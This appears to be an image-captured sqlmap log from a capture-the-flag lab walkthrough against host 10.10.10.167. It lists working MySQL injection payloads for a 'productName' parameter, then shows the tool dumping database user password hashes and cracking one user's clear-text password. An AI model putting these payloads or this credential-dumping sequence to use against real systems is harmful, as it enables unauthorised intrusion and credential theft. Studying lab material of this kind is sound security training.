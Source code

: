 ```
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: productName=-2040' OR 1557=1557#

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: productName=16' AND (SELECT 4997 FROM(SELECT COUNT(*),CONCAT(0x7176766a71,(SELECT (ELT(4997=4997,1))),0x716b7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- sxcB

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: productName=16';SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: productName=16' AND (SELECT 4567 FROM (SELECT(SLEEP(5)))hRhs)-- bOGr

    Type: UNION query
    Title: MySQL UNION query (NULL) - 6 columns
    Payload: productName=16' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7176766a71,0x71686242474a6c66494c6e4d5564417659566e4867534758516964765773466261785943534e7864,0x716b7a7671),NULL,NULL#
---
[17:50:52] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0
[17:50:52] [INFO] fetching database users password hashes
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] 
[17:51:05] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files

[17:51:18] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] 
[17:51:21] [INFO] starting dictionary-based cracking (mysql_passwd)
[17:51:21] [INFO] starting 4 processes 
[17:51:30] [INFO] cracked password 'l3tm3!n' for user 'manager'                                                   
database management system users password hashes:                                                                 
[*] hector [1]:
    password hash: *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D
[*] manager [1]:
    password hash: *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA
    clear-text password: l3tm3!n
[*] root [1]:
    password hash: *0A4A5CAD344718DC418035A1F4D292BA603134D8

[17:51:43] [INFO] fetched data logged to text files under '/home/kali/.sqlmap/output/10.10.10.167'
[17:51:43] [WARNING] you haven't updated sqlmap for more than 114 days!!!

[*] ending @ 17:51:43 /2020-04-24/

```
